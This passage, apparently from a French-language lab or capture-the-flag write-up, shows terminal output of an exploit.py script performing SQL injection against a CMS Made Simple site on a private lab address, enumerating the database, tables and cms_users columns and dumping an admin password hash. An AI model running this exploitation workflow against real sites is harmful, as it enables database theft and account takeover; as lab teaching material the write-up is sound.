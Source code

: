 Dans la pratique ça donne ceci :

```bash
$ python exploit.py --current-user http://192.168.56.76/
INFO:root:[+] Fetching current user
cmsms@localhost
$ python exploit.py --current-db http://192.168.56.76/
INFO:root:[+] Fetching current database
cmsms_db
$ python exploit.py -D cmsms_db --tables http://192.168.56.76/
INFO:root:[+] Fetching number of tables in database cmsms_db
INFO:root:[+] Found 53 tables in database cmsms_db
INFO:root:[+] Fetching table name #0 of database cmsms_db
cms_additional_users
INFO:root:[+] Fetching table name #1 of database cmsms_db
cms_additional_users_seq
INFO:root:[+] Fetching table name #2 of database cmsms_db
cms_adminlog
--- snip ---
INFO:root:[+] Fetching table name #49 of database cmsms_db
cms_users
INFO:root:[+] Fetching table name #50 of database cmsms_db
cms_users_seq
INFO:root:[+] Fetching table name #51 of database cmsms_db
cms_user_groups
INFO:root:[+] Fetching table name #52 of database cmsms_db
cms_version
$ python exploit.py -D cmsms_db -T cms_users --columns  http://192.168.56.76/
INFO:root:[+] Fetching number of columns in cmsms_db.cms_users
INFO:root:[+] Fetching column name #0 of cmsms_db.cms_users
user_id
INFO:root:[+] Fetching column name #1 of cmsms_db.cms_users
username
INFO:root:[+] Fetching column name #2 of cmsms_db.cms_users
password
INFO:root:[+] Fetching column name #3 of cmsms_db.cms_users
admin_access
INFO:root:[+] Fetching column name #4 of cmsms_db.cms_users
first_name
INFO:root:[+] Fetching column name #5 of cmsms_db.cms_users
last_name
INFO:root:[+] Fetching column name #6 of cmsms_db.cms_users
email
INFO:root:[+] Fetching column name #7 of cmsms_db.cms_users
active
INFO:root:[+] Fetching column name #8 of cmsms_db.cms_users
create_date
INFO:root:[+] Fetching column name #9 of cmsms_db.cms_users
modified_date
$ python exploit.py -D cmsms_db -T cms_users -C password --dump  http://192.168.56.76/
INFO:root:[+] Fetching number of rows in cmsms_db.cms_users
INFO:root:[+] Found 1 rows in table cmsms_db.cms_users
idx 0: 7908b1494f82ed320b288a0e839bfbc5
```
